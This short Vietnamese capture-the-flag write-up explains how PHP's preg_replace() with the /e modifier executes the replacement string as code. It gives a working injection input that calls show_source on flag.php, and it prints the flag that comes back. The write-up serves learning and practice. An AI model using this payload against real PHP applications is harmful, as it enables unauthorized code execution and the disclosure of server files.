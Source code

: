 Tài liệu về lỗ hổng này thật sự phổ biến, ví dụ [link](https://medium.com/@isharaabeythissa/command-injection-preg-replace-php-function-exploit-fdf987f767df)

Hàm `preg_replace()` của php là hàm được dùng để thay thế 1 phần của string (substring cần thay thế viết dưới dạng regex //), và khi chỉnh `modifier` của regex thành `e`, ta sẽ khiến cho kết quả trả về có khả năng thực thi như 1 câu lệnh php bình thường. Vậy ta sẽ điền form như sau:

>search: /hello/e
>
>replace: show_source('flag.php')
>
>content: hello

kết quả:

` <?php$flag="pr3g_r3pl4c3_3_m0d1f13r_styl3";?> `1 